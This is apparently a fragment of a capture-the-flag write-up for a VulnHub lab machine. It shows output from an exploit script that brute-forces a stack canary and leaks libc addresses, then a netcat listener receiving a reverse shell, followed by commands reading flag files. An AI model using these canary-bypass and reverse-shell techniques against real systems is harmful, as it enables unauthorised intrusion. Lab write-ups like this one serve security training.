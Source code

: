 ```python
# # nc -lnvp 443
```

```
bob@baffle:~$ python solve.py 
[+] Finding canary position...
[+] Canary position: 1000
[+] Bruteforcing canary...
[+] Found byte(0): 00
[+] Found byte(1): e8
[+] Found byte(2): 0a
[+] Found byte(3): 22
[+] Found byte(4): dc
[+] Found byte(5): 8f
[+] Found byte(6): 5e
[+] Found byte(7): ed
[+] Canary: 00e80a22dc8f5eed
[+] Socket FD: 16353
[+] Leaked memset addr:  0x7f5c96d10620
[+] libc base addr:  0x7f5c96c8b000
[+] sysem addr:  0x7f5c96ccc490
[+] New Socket FD16354
Socket fd: 16354

[+] Exploit...
```

```
root@AIRBUS:~# nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.159.4] from (UNKNOWN) [192.168.159.133] 54304
id
uid=1000(vulnhub) gid=1000(vulnhub) groups=1000(vulnhub),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev)
whoami
vulnhub
dir
flag.txt  log.txt  run_service.sh
cat flag.txt
Sorry Mario. The flag is in another castle. 
ls -al
total 40
drwx------ 3 vulnhub vulnhub 4096 Oct 25 16:49 .
drwxr-xr-x 6 root    root    4096 Oct 20 03:38 ..
-rw------- 1 vulnhub vulnhub    0 Oct 20 03:28 .bash_history
-rw-r--r-- 1 vulnhub vulnhub  220 Sep 12 15:05 .bash_logout
-rw-r--r-- 1 vulnhub vulnhub 3515 Sep 12 15:05 .bashrc
-rw-r--r-- 1 vulnhub vulnhub   45 Oct 25 16:49 flag.txt
-rw-r--r-- 1 vulnhub vulnhub  504 Mar  6 19:10 log.txt
drwxr-xr-x 2 root    root    4096 Oct 25 16:46 .my_loot
-rw-r--r-- 1 vulnhub vulnhub  675 Sep 12 15:05 .profile
-rwx------ 1 vulnhub vulnhub  297 Oct 20 03:21 run_service.sh
-rw-r--r-- 1 vulnhub vulnhub   74 Oct 20 02:08 .selected_editor
cd .my_loot
ls -al
total 12
drwxr-xr-x 2 root    root    4096 Oct 25 16:46 .
drwx------ 3 vulnhub vulnhub 4096 Oct 25 16:49 ..
-rw-r--r-- 1 root    root     274 Oct 25 16:46 flag.txt
cat flag.txt


        !!! CONGRATULATIONS !!!

```